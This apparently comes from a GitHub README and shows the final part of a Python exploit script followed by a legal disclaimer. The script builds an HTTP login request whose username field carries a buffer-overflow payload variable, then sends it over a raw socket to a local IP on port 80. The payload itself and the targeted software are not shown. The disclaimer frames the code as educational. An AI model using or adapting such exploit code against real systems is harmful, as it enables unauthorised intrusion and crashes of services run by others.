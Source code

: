 ```
request+="Accept-Encoding: gzip, deflate, br\r\n"
request+="Accept-Language: en-US,en;q=0.9\r\n"
request+="Connection: close\r\n"
request+="\r\n"
request+="username="+bufferOvrCode+"&password=1234"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.12",80))
s.send(request)
```

## Legal disclaimer:
Don't use this exploit against a target without permission. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse of this tool. Use only for educational and research purposes.

